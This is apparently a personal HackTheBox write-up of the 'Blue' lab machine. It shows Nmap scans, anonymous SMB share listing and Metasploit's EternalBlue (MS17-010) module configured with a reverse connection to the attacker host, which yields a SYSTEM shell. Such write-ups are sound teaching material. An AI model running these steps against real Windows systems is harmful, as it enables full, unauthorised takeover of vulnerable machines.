

[Easy] Blue

Compromised on September 7, 2022Written on February 3, 2024
Blue is my fourth machine to compromise on HackTheBox. This machine features a Windows environment with the infamous EternalBlue exploit, targeting the SMBv1 protocol. This exploit, before it was reported to Microsoft, was used for antiterrorism and counterintelligence by the NSA for years. Unfortunately, when the NSA informed Microsoft about this exploit, the exploit was leaked. Hackers took advantage of this and performed devastating large attacks.This is one of the easiest machines on HackTheBox as the exploit is publicly available and easy. The first blood for root only took two minutes.
Enumeration
Nmap
Let's start with an Nmap scan.
nmap 10.10.10.40 -Pn -p- --min-rate=5000Now that we know the open ports, let's scan for more details and get version number.
nmap 10.10.10.40 -Pn -p135,139,445 -sC -sV --min-rate=5000SMB - TCP port 445
The only thing we can work with is port 445, which is running SMB and has guest access. Let's see what shares are available.
smbclient -N -L //10.10.10.40Accessing the share "Share", there isn't anything here.
smbclient -N //10.10.10.40/SharedirAccessing the share "Users", there are other folders but they don't contain anything interesting.
smbclient -N //10.10.10.40/UsersdirSearching the service and version on Google, we do get results for an exploit: MS17-010. Let's try this.
Exploiting SMB using EternalBlue MS17-010
Metasploit has this exploit available.
msfconsolesearch ms17-010We'll use the first one, set our options, and run the exploit.
use 0set rhost 10.10.10.40set lhost 10.10.14.3set lport 4444runThe exploit worked; we now have a Meterpreter shell. We can drop a shell into the machine and check our user.
shellwhoamiWe have a shell as NT AUTHORITY/SYSTEM, the highest privileged account. We'll get root and user flags next.
dir C:\Usersmore C:\Users\Administrator\Desktop\root.txtmore C:\Users\haris\Desktop\user.txtFull compromise.